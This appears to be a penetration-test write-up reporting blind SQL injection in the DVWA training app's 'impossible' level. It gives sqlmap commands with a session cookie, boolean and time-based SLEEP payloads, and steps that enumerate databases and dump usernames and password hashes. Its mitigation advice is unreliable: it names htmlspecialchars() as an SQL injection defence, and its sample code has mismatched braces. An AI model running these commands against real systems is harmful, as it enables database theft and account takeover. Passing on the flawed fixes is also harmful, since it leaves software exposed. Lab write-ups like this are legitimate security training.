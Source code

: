 # Blind SQL injections leads to database dump of all usernames and their password hashes on level impossible

**Summary:**

Blind SQL Injection leads to all databases and their tables being dumped when on level impossible.

**Description:**

- Blind SQL injections occur when an application is vulnerable to an SQL injection, however no SQL query results are contained in the HTTP response. Instead there may be a time delay or a message to confirm that the query was correct which allows programs such as sqlmap to enumerate through SQL databases including their tables.
- A tool called sqlmap can be used to scan all the databases and their contents including the username and password hash of every user in the database. This is possibly due to special characters being accepted in the input because functions like htmlspecialchars() may not be used.

Affected URL: http://localhost/DVWA/vulnerabilities/sqli_blind/index.php

Affected Object: User ID input box.

![Alt text](image-14.png)

![Alt text](image-13.png)

**Severity:**

P1: Critical 

Server-Side Injection > SQL Injection

**Steps to Reproduce:**
1. Login with a user account and set the security level to impossible.

![Alt text](image.png)

2. Go to the SQL Injection (Blind) activity and input a successful input such as 2.

Affected URL: http://localhost/DVWA/vulnerabilities/sqli_blind/index.php

![Alt text](image-4.png)

3. Go to Burp Suite and add a successful request attempt with a correct id value to repeater and copy down the cookies.

![Alt text](image-5.png)

4. Use a tool called sqlmap from Github 

sqlmap: https://github.com/sqlmapproject/sqlmap 

and fill the command out like so using the cookies obtained from burp suite:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="security=impossible; PHPSESSID=h1nvkhckj1apfboclmqhrrh31d" | tee dvwa_sqlmap_impossible.txt

![Alt text](image-6.png)

5. Run the command and the following vulnerabilities detected will be:

        Parameter: id (POST)

            Type: boolean-based blind
            Title: AND boolean-based blind - WHERE or HAVING clause
            Payload: id=2 AND 3782=3782&Submit=Submit

            Type: time-based blind
            Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
            Payload: id=2 AND (SELECT 3999 FROM (SELECT(SLEEP(5)))ZrUr)&Submit=Submit


6. All database names can be discovered using the following command:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="PHPSESSID=h1nvkhckj1apfboclmqhrrh31d;security=impossible" --dbs | tee dvwa_sqlmap_impossible.txt

![Alt text](image-7.png)

    Databases returned:
    - dvwa
    - information_scheme

7. Dump all the table data for the 'dvwa' database with the following command:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="PHPSESSID=h1nvkhckj1apfboclmqhrrh31d;security=impossible" -D dvwa --dump | tee dvwa_sqlmap_impossible.txt

![Alt text](image-10.png)

8. Say 'y' to all the options:

![Alt text](image-11.png)

**Impact**

You will find the whole database is revealed containing usernames and the password hashes. Weak passwords that are hashed will be cracked with sqlmap via a dictionary attack. This information can be used to log into any user account.

**Recommended Mitigation**

- Remove all special characters including quotes and any comments that could be run in SQL. This can be done with the htmlspecialchars() php function.
- Make sure that if a numeric value is expected that only a numeric value can be accepted. Use conditions with functions such as: 
if(is_numeric( $id )) { $id = intval($id); {Your query code with (:id) and is returned as output}}
